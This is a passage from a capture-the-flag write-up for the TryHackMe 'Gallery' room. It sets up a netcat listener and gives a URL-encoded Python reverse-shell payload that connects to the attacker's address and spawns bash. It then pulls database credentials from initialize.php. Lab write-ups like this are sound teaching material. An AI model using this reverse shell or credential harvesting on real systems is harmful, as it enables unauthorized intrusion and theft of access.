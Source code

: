## Payload

Now time to craft a payload to get access to the web server. (I use Reverse Shell Generator)

```bash
sudo ufw allow 1984
nc -lvnp 1984
```

```bash
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.14.106.223%22%2C1984%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

## Initial access on server

In the `gallery` directory, we can see a php file named `initialize.php`.

![](/assets/img/2025-10-31-THM-Gallery/see_initialize_php.png)

No surprise it contains some credentials, the database admin credentials to be precise.

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

**Cred:** `gallery_user:passw0rd321`

So let's try the credentials.

First we should determine which client can be used to interact with database.

![](/assets/img/2025-10-31-THM-Gallery/finding_the_database_client.png)
